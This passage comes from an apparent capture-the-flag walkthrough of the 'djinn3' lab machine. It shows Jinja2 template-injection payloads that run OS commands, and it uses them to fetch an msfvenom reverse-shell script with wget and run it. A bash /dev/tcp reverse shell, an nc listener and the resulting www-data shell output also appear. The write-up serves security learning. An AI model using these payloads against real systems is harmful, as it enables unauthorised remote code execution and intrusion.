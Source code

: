 As we are not provided with the created ID with the `open` command, I haven't been able to automatically retrieve the created content, but we can still do it manually by clicking on the links from the web application. Browsing each links one by one, I discovered that the following command was sucessfully interpreted:

~~~
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
~~~

Indeed, retrieving the content of the ticket reveals that files are actually listed, as expected.

~~~
kali@kali:/data/djinn3/files$ curl -s http://djinn.box:5000/?id=2517 | html2text 
*** test27 ***

Status: open
ID: 2517
*** Description: ***

data.json static templates webapp.py
Sorry for the bright page, we are working on some beautiful CSS
kali@kali:/data/djinn3/files$ 
~~~

## Reverse shell

Now with this footprint, I tried to inject a reverse shell directly but it did not work:

~~~
{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/172.16.222.128/4444 0>&1').read()}}
~~~

I then decided to generate a reverse shell with `msfvenom` and to force the target to download it and execute it from `/tmp`. Let's first generate our reverse shell and make it available with a python web server:

~~~
$ msfvenom -p cmd/unix/reverse_bash lhost=172.16.222.128 lport=4444 -f raw -o revshell.sh
$ python3 -m http.server
~~~

Now, create a ticket with the following description:

~~~
{{config.__class__.__init__.__globals__['os'].popen('wget http://172.16.222.128:8000/revshell.sh -O /tmp/revshell.sh').read()}}
~~~

Start a listener (`rlwrap nc -nlvp 4444`) and create another ticket with the following description:

~~~
{{config.__class__.__init__.__globals__['os'].popen('bash /tmp/revshell.sh').read()}}
~~~

Now connect to http://djinn.box:5000 to get the list of tickets, and click on the link that corresponds to the latest ticket created. A reverse shell should be spawned to the listener window.

~~~
kali@kali:/data/djinn3/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.146] 39322
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@djinn3:/opt/.web$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@djinn3:/opt/.web$ 
~~~
